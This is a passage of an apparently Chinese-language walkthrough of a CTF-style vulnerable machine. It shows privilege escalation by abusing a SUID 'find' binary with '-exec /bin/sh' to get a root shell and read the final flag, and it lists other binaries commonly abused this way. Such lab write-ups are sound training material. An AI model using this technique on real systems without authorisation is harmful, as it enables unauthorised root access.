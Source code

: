 find可以使用

常见的可以用来提权的文件:

```
Nmap
Vim
find
Bash
More
Less
Nano
cp
```



find 命令说明
-exec 参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。-exec参数后面跟的就是我们想进一步操作的命令,so，我们可以以root的权限命令执行了。

```
//这个要在/var/www下执行
touch getflag
find / -type f -name getflag -exec "whoami" \;
find / -type f -name getflag -exec "/bin/sh" \;
```

![](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219210216024.png)



提权成功，获取root权限

现在目标就是找最后的flag,最后的flag在root目录下

![](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219205951044.png)

```
Well done!!!!
Hopefully you've enjoyed this and learned some new skills.
You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

